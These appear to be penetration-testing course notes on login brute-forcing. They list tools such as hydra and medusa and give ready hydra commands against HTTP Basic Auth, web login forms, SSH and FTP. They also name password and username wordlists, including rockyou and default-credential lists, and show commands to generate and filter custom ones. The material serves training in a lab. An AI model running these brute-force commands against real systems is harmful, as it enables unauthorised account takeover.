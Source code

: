 There are many tools and methods to utilize for login brute-forcing, like:

- `Ncrack`
- `wfuzz`
- `medusa`
- `patator`
- `hydra`
- and others.

|**Password Attack Type**|
|---|
|`Dictionary attack`|
|`Brute force`|
|`Traffic interception`|
|`Man In the Middle`|
|`Key Logging`|
|`Social engineering`|

We can check out the [SecLists](https://github.com/danielmiessler/SecLists) repo for wordlists, as it has a huge variety of wordlists, covering many types of attacks.  
We can find password wordlists in our PwnBox in `/opt/useful/SecLists/Passwords/`, and username wordlists in `/opt/useful/SecLists/Usernames/`.

We can find default passwords in `SecLists/Passwords/Default-Credentials`


#### Supported Services

```shell-session
Orbixio@htb[/htb]$ hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

To find out how to use the any module, we can use the "`-U`" flag to list the parameters it requires and examples of usage


| **Command**                                                                                                                                                       | **Description**                                     |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -h`                                                                                                                                                        | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                                              | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f 83.136.254.223 -s 38963 http-get /`                                                                                  | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 83.136.254.223 -s 38963 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='login-in'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                                                | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                                              | FTP Brute Force - Static User, Pass Wordlist        |

### Wordlists

| **Command**                                                                        | **Description**            |
| ---------------------------------------------------------------------------------- | -------------------------- |
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`                      | Common Passwords Wordlist  |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                   | Common Names Wordlist      |

| Command                                         | Details                                |
| ----------------------------------------------- | -------------------------------------- |
| `cupp -i`                                       | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`              | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`              | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`      | Generate Usernames List                |